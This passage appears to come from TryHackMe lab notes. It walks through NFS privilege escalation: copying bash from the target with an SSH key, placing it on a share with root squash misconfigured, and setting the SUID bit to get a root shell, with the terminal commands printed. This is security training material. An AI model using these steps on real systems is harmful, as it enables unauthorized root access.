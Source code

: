 
```shell
┌──(kali㉿kali)-[~/Documents/tryhackme-notes/network2]
└─$ scp -i id_rsa cappucino@10.10.249.119:/bin/bash ~/Downloads/bash
bash        
```

**Mapped Out Pathway:**

If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:  
  

    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS

1. `First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.`
2. `Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"`

```php
┌──(kali㉿kali)-[~/…/tryhackme-notes/network2/mnt-share/cappucino]
└─$ ls -la
total 1124
drwxr-xr-x 5 kali kali    4096 Jul  2 03:59 .
drwxr-xr-x 3 root root    4096 Apr 21  2020 ..
-rwxr-xr-x 1 root kali 1113504 Jul  2 03:59 bash
-rw------- 1 kali kali       5 Jun  4  2020 .bash_history
-rw-r--r-- 1 kali kali     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kali kali    3771 Apr  4  2018 .bashrc
drwx------ 2 kali kali    4096 Apr 22  2020 .cache
drwx------ 3 kali kali    4096 Apr 22  2020 .gnupg
-rw-r--r-- 1 kali kali     807 Apr  4  2018 .profile
drwx------ 2 kali kali    4096 Apr 22  2020 .ssh
-rw-r--r-- 1 kali kali       0 Apr 22  2020 .sudo_as_admin_successful
```

3. `Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?`

```shell
┌──(kali㉿kali)-[~/…/tryhackme-notes/network2/mnt-share/cappucino]
└─$ sudo chmod +s bash  
```
